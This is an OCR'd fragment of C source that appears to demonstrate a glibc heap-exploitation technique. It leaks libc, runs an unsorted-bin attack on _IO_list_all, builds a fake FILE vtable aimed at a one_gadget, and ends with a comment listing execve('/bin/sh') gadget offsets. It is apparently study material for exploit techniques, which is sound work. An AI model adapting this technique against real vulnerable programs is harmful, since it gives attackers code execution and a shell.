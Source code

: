 ```C
	
	setvbufs();
	p1=malloc(0x100);
	malloc(0x20);

	free(p1);
	malloc(0xa0);

	p2 = malloc(0x100);
	// now we have a 0x60 smallbin
	//
	// avoid smallbin to be alloced, use 0x100
	malloc(0x100);

	free(p2);
	libc_base = *(ull*)p2 - 0x3c4b78;
	*((ull*)p2+1) = libc_base+_IO_list_all - sizeof(void*)*2;

	malloc(0x100);

	p = (ull*)((ull)p1+0xa0);
	// 'p' pointer to the chain of _IO_list_all
	// fake _mode
	*p = 0;
	// _IO_write_base
	*(p+4) = 0;
	// _IO_write_ptr
	*(p+5) = 1;
	// __overflow in vtable
	*(p+3) = libc_base+one_gadget;
	// fake vtable
	*(ull*)((ull)p+0xd8) = (ull)p;
	
	// unsorted bin is corrputed
	// just trigger it
	p3 = malloc(0x20);
	free(p3);
	free(p3);


	return 0;
}

/*
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
*/
```

